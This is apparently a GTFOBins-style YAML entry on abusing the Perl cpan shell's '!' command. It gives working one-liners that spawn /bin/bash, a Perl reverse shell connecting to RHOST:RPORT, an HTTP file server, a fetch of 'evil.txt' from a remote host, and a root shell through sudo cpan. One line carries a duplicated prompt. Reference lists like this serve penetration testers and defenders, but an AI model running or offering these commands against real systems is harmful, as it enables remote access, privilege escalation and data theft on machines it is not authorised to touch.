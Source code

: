 ```yaml
---
functions:
  shell:
    - description: cpan lets you execute perl commands with `! command`
      code: |
        $ cpan
        cpan[1]> ! exec '/bin/bash'

  reverse-shell:
    - description: Run ``nc -lvp RPORT`` on the attacker box to receive the shell.
      code: |
        $ cpan
        cpan[1]> ! use Socket; my $i="RHOST"; my $p=RPORT; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};

  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install dependency via `cpan HTTP::Server::Simple`.
      code: |
        $ cpan
        cpan[1]> ! cpan[1]> ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();

  file-download:
    - description: Fetch a remote file via HTTP GET request and store it in PWD.
      code: |
        $ cpan
        cpan[1]> ! use File::Fetch; my $file = (File::Fetch->new(uri => 'http://RHOST/evil.txt'))->fetch();

  sudo:
    - code: |
        $ sudo cpan
        cpan[1]> ! exec '/bin/bash'

---
```

